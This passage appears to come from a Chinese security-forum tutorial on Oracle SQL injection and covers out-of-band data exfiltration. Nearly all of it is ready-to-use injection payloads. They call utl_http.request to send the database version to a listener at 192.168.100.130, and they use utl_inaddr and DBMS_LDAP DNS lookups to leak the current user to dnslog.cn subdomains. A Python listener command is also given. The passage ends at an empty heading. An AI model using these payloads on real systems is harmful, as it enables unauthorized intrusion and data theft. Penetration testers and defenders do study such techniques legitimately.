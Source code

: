 # 0x07 外带数据注入

#### 1、url_http.request()

使用此方法，用户需要有utl_http访问网络的权限
首先检测是否支持，页面返回正常则表示支持

```
?id=1 and exists (select count(*) from all_objects where object_name='UTL_HTTP') --
```

[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095418-e2c3bc46-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095418-e2c3bc46-f00f-1.png)
然后python起一个http服务，或者开启nc监听。这里我使用python开启一个服务：

```
python3 -m http.server 4455
```

[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095418-e2e2589a-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095418-e2e2589a-f00f-1.png)

```
#子查询数据库版本信息并访问python起的http服务?id=1 and utl_http.request('http://192.168.100.130:4455/'||(select banner from sys.v_$version where rownum=1))=1--#http访问时可以将||进行URL编码?id=1 and utl_http.request('http://192.168.100.130:4455/'%7C%7C(select banner from sys.v_$version where rownum=1))=1--
```

[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095418-e31416d2-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095418-e31416d2-f00f-1.png)
可以看到成功获取了数据
[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095419-e3387220-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095419-e3387220-f00f-1.png)

#### 2、utl_inaddr.get_host_address()函数

```
#使用dnslog外带数据?id=1 and (select utl_inaddr.get_host_address((select user from dual)||'.eeaijt.dnslog.cn') from dual)is not null --
```

[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095419-e354ea18-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095419-e354ea18-f00f-1.png)
[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095419-e372ec70-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095419-e372ec70-f00f-1.png)

#### 3、SYS.DBMS_LDAP.INIT()函数

网上说是可以使用，我试着不行，收不到数据，不知道是不是环境问题。

```
?id=1 and (select SYS.DBMS_LDAP.INIT((select user from dual)||'.51prg6.dnslog.cn',80) from dual)is not null --?id=1 and (select DBMS_LDAP.INIT((select user from dual)||'.51prg6.dnslog.cn',80) from dual)is not null --
```

#### 4、HTTPURITYPE()函数
